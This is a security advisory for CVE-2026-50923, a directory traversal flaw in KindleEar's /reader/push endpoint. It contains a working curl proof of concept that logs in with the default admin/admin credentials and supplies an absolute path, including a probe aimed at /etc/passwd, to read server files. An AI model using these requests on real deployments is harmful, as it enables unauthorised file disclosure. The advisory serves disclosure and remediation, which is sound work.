



# CVE-2026-50923 — Absolute-Path Sandbox Escape and File Read in KindleEar `/reader/push`

[CVE ID]
CVE-2026-50923

[PRODUCT]
cdhigh/KindleEar — a self-hosted Python web application that aggregates RSS/web feeds and delivers generated e-books to e-readers.

[VERSION]
commit on master (commit `5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7`)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The authenticated endpoint `POST /reader/push` (form field `src`, with `type=article`) passes the attacker-controlled `src` into `PushSingleArticle()`. The only path validation is a blacklist that rejects `..` and a requirement that `src` contains `/`; the final path is then built with `os.path.join(userDir, src)` and opened for reading. Because `os.path.join` discards the `userDir` prefix when `src` is an absolute path, a logged-in attacker can supply an absolute filesystem path and make the server read any process-readable file outside the intended per-user directory. The file content then flows into the article-to-e-book conversion chain, and whatever content survives that chain is disclosed — not a raw whole-file reflection (demonstrated via the generated/delivered EPUB artifact; see Impact for the boundary).

Vulnerable code: <https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/view/reader.py#L322-L331>

## Proof of Concept

### Victim setup

Built from the repository Dockerfile at the pinned commit (image code identity against the pinned checkout verified in the transcript: 425 files under `application/` byte-identical; `application/view/reader.py` md5 `ca88665f5506389d38e351a765afc389` on both sides).

```bash
git clone https://github.com/cdhigh/KindleEar.git && cd KindleEar
git checkout 5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7
docker build -t scdd-platform/kindleear:5f51b48b -f docker/Dockerfile .
docker run --rm -d --name scdd_50923 -p 34512:8000 scdd-platform/kindleear:5f51b48b
# wait until http://127.0.0.1:34512/ answers 200
```



### Attack steps

All requests are sent from `127.0.0.1` against `http://127.0.0.1:34512`. A first-ever visit to `/login` auto-creates the `admin/admin` account in this runtime; the attacker logs in and points the delivery channel at a local save path purely to make the disclosure observable:

```bash
BASE="http://127.0.0.1:34512"; JAR=/tmp/scdd_50923_cookies.txt; MAIL_DIR=/tmp/scdd_50923_mail_1790572553  # recorded-session value
curl -sS -c $JAR -b $JAR "$BASE/login" >/dev/null                       # bootstrap admin/admin
curl -sS -c $JAR -b $JAR "$BASE/reader?username=admin&password=admin" >/dev/null   # login
curl -sS -c $JAR -b $JAR -X POST "$BASE/adv/calibre" --data-urlencode 'options={}' >/dev/null
curl -sS -c $JAR -b $JAR -X POST "$BASE/account/change/admin" \
  -d username=admin -d orgpwd= -d password1= -d password2= \
  -d email=admin@example.com -d shareKey=scdd_50923_x >/dev/null
curl -sS -c $JAR -b $JAR -X POST "$BASE/settings" \
  -d kindle_email=attacker@example.com -d delivery_mode=email \
  -d sm_service=local -d sm_save_path=$MAIL_DIR >/dev/null

# control probe A — relative traversal is blacklisted:
curl -sS -c $JAR -b $JAR -X POST "$BASE/reader/push" -d type=article \
  -d 'src=../usr/kindleear/application/templates/base.html' -d title=scdd_probe_a -d language=en
# -> {"status":"Failed to push: insecurity path expression"}

# control probe B — relative path stays inside userDir (/data/ebooks/admin):
curl -sS -c $JAR -b $JAR -X POST "$BASE/reader/push" -d type=article \
  -d 'src=etc/passwd' -d title=scdd_probe_b -d language=en
# -> {"status":"Failed to push: [Errno 2] No such file or directory: '/data/ebooks/admin/etc/passwd'"}

# attack — ABSOLUTE path: os.path.join(userDir, src) discards userDir, open() reads the file:
curl -sS -c $JAR -b $JAR -X POST "$BASE/reader/push" -d type=article \
  -d 'src=/usr/kindleear/application/templates/base.html' -d title=scdd_e2e -d language=en
# -> {"status":"ok"}  (HTTP 200)
```



### Evidence

From `evidence/transcript.txt` (session exit code 0). The read file is `/usr/kindleear/application/templates/base.html`, which contains the marker text `KindleEar is a open source web app` and exists nowhere under the userDir tree (`find /data -name base.html | wc -l` → `0`). After the push, the generated e-book contains that text:

```
$ docker exec scdd_50923 sh -c 'ls -la /tmp/scdd_50923_mail_1790572553'
-rw-r--r--    1 root     root          3509 Sep 28 05:16 scdd_e2e_05-16-19.epub

$ docker exec scdd_50923 grep -n 'KindleEar is a open source web app' /usr/kindleear/application/templates/base.html
6:  <meta name="description" content="KindleEar is a open source web app for e-reader owners that aggregates feeds and deliver them to your devices." />

$ docker exec scdd_50923 sh -c 'find /data -name base.html 2>/dev/null | wc -l'
0

EPUB /tmp/scdd_50923_mail_1790572553/scdd_e2e_05-16-19.epub
FOUND_IN index.html
-width,initial-scale=1.0,user-scalable=no" name="viewport"/>
    <meta content="KindleEar is a open source web app for e-reader owners that aggregates feeds and deliver them to your devices." na
EVIDENCE_RC=0
```

Since `base.html` does not exist under `/data`, the content in the generated EPUB can only originate from the absolute-path read outside the sandbox.



## Impact

Any authenticated user (on a fresh instance the first visit to `/login` auto-creates `admin`/`admin`, so the precondition is trivially met on default deployments) can make the server read files at attacker-chosen absolute paths, limited only by the privileges of the application process. Verified disclosure is bounded by the article-to-e-book conversion chain: the read content surfaces inside the generated e-book that is pushed to the delivery target the account controls (demonstrated with an HTML template file whose marker text was recovered from inside the generated EPUB; raw whole-file HTTP reflection is not available, and only content that survives the HTML-to-e-book conversion chain is disclosed). Additionally, error responses echo the resolved absolute path (probe B), giving a file-existence oracle under the server's filesystem.

## Occurrences

- `application/view/reader.py:L105-L108` — `src` taken from the request and only checked for containing `/` (and non-empty `title`, valid `type`)
- `application/view/reader.py:L323-L324` — sole path defense: rejection of `..`
- `application/view/reader.py:L326` — `os.path.join(userDir, src)`: an absolute `src` discards `userDir` (sandbox escape)
- `application/view/reader.py:L328-L329` — `open(path, ...)` sink on the unsandboxed path

## References

- [CVE-2026-50923](https://www.cve.org/CVERecord?id=CVE-2026-50923)
- [cdhigh/KindleEar](https://github.com/cdhigh/KindleEar)
- Vulnerable code at pinned commit: <https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/view/reader.py#L322-L331>
